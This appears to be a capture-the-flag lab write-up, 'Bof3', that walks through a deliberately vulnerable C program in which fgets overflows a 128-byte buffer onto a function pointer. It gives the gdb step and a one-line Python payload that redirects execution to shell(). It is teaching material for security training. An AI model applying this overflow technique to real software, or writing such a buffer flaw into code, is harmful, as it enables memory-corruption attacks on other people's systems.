 # Bof3
### Program code:
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

void shell() {
    printf("You made it! The shell() function is executed\n");
}

void sup() {
    printf("Congrat!\n");
}

void main()
{ 
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```
>Goal: print out the text "You made it! The shell() function is executed" using *shell()*
### Solution:
1. Get the address of *shell()*:
   - Load the program into *gdb* and type `disas shell`
     
     ![](img/bof3/shell.JPG)
     
   - The first line show us the address of *shell()* which is `0x0804845b`
2. Do the attack:
   - To overflow the memory, we need to input *128 random bytes* + *4 byte address of shell()*
   - Quit *gdb* and type `echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.o`
     
     ![](img/bof3/attackbof3.JPG)
     
   - Goal achieved!
